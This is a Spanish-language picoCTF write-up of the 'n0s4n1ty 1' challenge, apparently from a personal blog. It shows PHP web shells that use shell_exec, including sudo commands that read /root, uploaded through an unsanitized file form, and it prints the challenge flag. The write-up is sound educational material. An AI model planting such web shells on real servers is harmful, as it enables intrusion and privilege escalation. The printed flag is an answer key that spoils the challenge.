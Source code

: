 ```yaml
---
title: n0s4n1ty
date: 2025-03-29 19:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, webexplotation]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


n0s4n1ty 1

>Author: Prince Niyonshuti N.
Description 
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
{: .prompt-tip }

Al lanzar la instancia tenemos acceso a una web donde aparece un formulario para subir un archivo. 

Bueno parece una oportunidad para subir una shell. La forma de aproximarse a estos formularios web es ver si la entrada está sanitizada. 
Sanitizar la entrada significa que a nivel de la aplicación, el código de la misma maneja que tipo de archivos se pueden subir, de que tamaño,
de que extensión y otros filtros que deberían comprobarse pero estos ejercicios suelen ser más sencillos que todo eso. 

The file c99.php has been uploaded Path: uploads/c99.php. Uso c99shell, hay muchas PHP shells [hacktools#web-shells](../hacktools#web-shells). Aunque tiene unas cuantas funcionalidades ya integradas con estos entornos no se puede ir tan a lo bestia, no funciona, así que probaré algo más manual. 

Codifico esta web en PHP, como no se sanitiza la entrada el servidor es posible que ejecute todo el código PHP que 
se encuentra dentro de las rutas de la aplicación incluido el directorio de uploads. Así que a subir una _webshell_ toca.
Poco a poco voy comprobando que la cosa funciona, prueba y error, determino la ruta completa hacia /root.

``` php
<?php
$output = shell_exec("pwd");
echo $output;
?>
```
Tengo resultados, el código se ha ejecutado, ahora sabemos que el archivo que hemos subido está exactamente en:
```/var/www/html/uploads ```

Después de hacer algunos cambios y resubir el archivo varias veces caigo en la cuenta de que con el directorio root no estoy teniendo suerte, añado una salida para comprobar que php se está ejecutando ```echo "Salida commando\n";```, así que añado sudo y descubro la sorpresa, el usuario actual ha sido añadido al fichero sudoers y ni siquiera necesita una password para ejecutar comandos del sistema.

```
<?php
$output = shell_exec("whoami");
echo "Salida commando\n";
echo $output;
?>
```

```Salida commando www-data```

``` php
<?php
$output = shell_exec("sudo ls ../../../../root/");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando flag.txt```

Codifico una última versión para capturar la banderita.
``` php
<?php
$output = shell_exec("sudo cat ../../../../root/flag.txt");
echo "Salida commando\n";
echo $output;
?>
```
```Salida commando picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}```

flag: **picoCTF{wh47_c4n_u_d0_wPHP_a4ca6ea0}**

Un buen ejemplo de como una mala praxis a la hora de asignar permisos a usuarios en este caso www-data en combinación con la falta de sanitización
de las entradas en la aplicación permite un RFI (Remote file inclusion) que se converte en un RCE (Remote code execution). Pues aunque el código PHP se ejecuta del lado del servidor la acción de visitar a la página subida es la que lleva a cabo la ejecución en el servidor remotamente. 
Sanitizen sus entradas o perezcan en el camino. 
